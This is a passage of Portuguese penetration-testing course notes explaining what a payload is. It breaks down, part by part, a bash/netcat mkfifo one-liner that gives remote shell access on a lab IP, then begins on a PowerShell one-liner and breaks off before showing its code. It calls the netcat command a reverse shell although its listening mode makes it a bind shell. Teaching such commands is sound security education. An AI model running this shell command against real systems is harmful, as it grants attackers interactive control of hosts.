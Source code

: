 `Have you ever sent an email or text to someone?`

A maioria de nós provavelmente tem. A mensagem que enviamos em um email ou texto é a carga útil do pacote, pois é enviada pela vasta Internet. Na computação, a carga útil é a mensagem pretendida. Na segurança da informação, a carga útil é o comando e / ou código que explora a vulnerabilidade em um sistema operacional e / ou aplicativo. A carga útil é o comando e / ou código que executa a ação maliciosa de uma perspectiva defensiva. Como vimos na seção de shells reversos, o Windows Defender interrompeu a execução de nossa carga útil do PowerShell porque era considerado um código malicioso.

Lembre-se de que, quando entregamos e executamos cargas úteis, como qualquer outro programa, fornecemos instruções ao computador de destino sobre o que ele precisa fazer. Os termos "malware" e "código malicioso" romantizam o processo e o tornam mais misterioso do que é. Sempre que trabalhamos com cargas úteis, vamos nos desafiar a explorar o que o código e os comandos estão realmente fazendo. Começaremos esse processo dividindo as linhas com as quais trabalhamos anteriormente:

## Examinados de uma linha


Esse comando é uma linha de comando shell que consiste em várias partes para criar uma conexão de shell reverso a um servidor especificado. Vamos analisar cada parte do comando:

1. `rm -f /tmp/f;`: Remove o arquivo `/tmp/f`, se ele existir. O `-f` é usado para evitar a exibição de mensagens de erro caso o arquivo não exista.
2. `mkfifo /tmp/f;`: Cria um FIFO (First-In, First-Out) chamado `/tmp/f`. Um FIFO é um arquivo especial que permite a comunicação entre processos.
3. `cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`: Essa é a parte principal do comando, que estabelece a conexão de shell reverso.
    - `cat /tmp/f`: Lê o conteúdo do FIFO `/tmp/f`.
    - `|`: Redireciona a saída do comando anterior para o próximo comando.
    - `/bin/bash -i 2>&1`: Executa o shell interativo `/bin/bash` com a opção `-i` para obter uma interface interativa. O `2>&1` redireciona a saída de erro (stderr) para o mesmo local que a saída padrão (stdout).
    - `|`: Redireciona a saída do comando anterior para o próximo comando.
    - `nc -l 10.129.41.200 7777`: Inicia o netcat em modo de escuta (`-l`) no endereço IP `10.129.41.200` e porta `7777`. Isso cria um servidor que aguarda por uma conexão de entrada.
    - `>`: Redireciona a saída do comando anterior para o arquivo `/tmp/f`. Isso faz com que a saída do shell interativo seja redirecionada para o FIFO criado no início do comando.

Resumindo, esse comando cria um FIFO, lê seu conteúdo com `cat`, executa um shell interativo `/bin/bash` cuja saída é redirecionada para o netcat, e a conexão é estabelecida com um servidor especificado. A interação no shell remoto será redirecionada de volta para o FIFO, que pode ser lido pelo comando `cat`. Isso permite que o usuário remoto interaja com o shell do servidor.

## PowerShell One-liner Explained

`powershell -nop -c "<código>"`

- `powershell`: Inicia uma instância do interpretador do PowerShell.
- `-nop`: Abreviação de "NoProfile". Inicia o PowerShell sem a execução do arquivo de perfil do usuário.
- `-c`: Abreviação de "Command". Permite que você especifique um comando ou script para ser executado no PowerShell.

Aqui está o código que está sendo executado:
